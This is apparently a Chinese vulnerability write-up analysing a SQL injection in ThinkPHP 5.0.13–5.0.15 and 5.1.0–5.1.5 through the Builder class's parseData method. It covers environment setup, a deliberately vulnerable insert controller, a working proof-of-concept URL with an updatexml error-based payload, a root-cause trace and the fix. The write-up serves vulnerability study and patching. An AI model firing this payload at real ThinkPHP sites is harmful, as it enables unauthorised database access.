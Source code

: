 5.0.13 \<= Thinkphp \<= 5.0.15 & 5.1.0 \<= Thinkphp \<= 5.1.5
=============================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert**
方法注入）。本次漏洞存在于 **Builder** 类的 **parseData**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

**5.0.13\<=ThinkPHP\<=5.0.15** 、 **5.1.0\<=ThinkPHP\<=5.1.5** 。

三、复现过程
------------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.15 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.15"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->insert(['username' => $username]);
            return 'Update success';
        }
    }

在 **application/database.php** 文件中配置数据库相关信息，并开启
**application/config.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );

### poc

    http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId25.png)

### 漏洞分析

![2.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId27.png)

首先在官方发布的 **5.0.16**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId28.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **\$this-\>builder** 的 **insert**
方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql**
类，代码如下：

![4.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId29.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的
**\$this-\>builder-\>insert()** 最终调用的是 **Builder** 类的 **insert**
方法。在 **insert** 方法中，我们看到其调用 **parseData**
方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据
**\$val** 进行了拼接返回。我们的恶意数据存储在 **\$val\[1\]**
中，虽经过了 **parseKey**
方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId30.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的
**insert** 方法，直接通过替换字符串的方式，将 **\$data** 填充到 **SQL**
语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId31.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch**
结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察
**ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec**
进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP**
内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格**
，这也是为什么 **ThinkPHP** 官方没有对 **exp**
的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId32.png)

### 漏洞修复

![8.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](./.resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
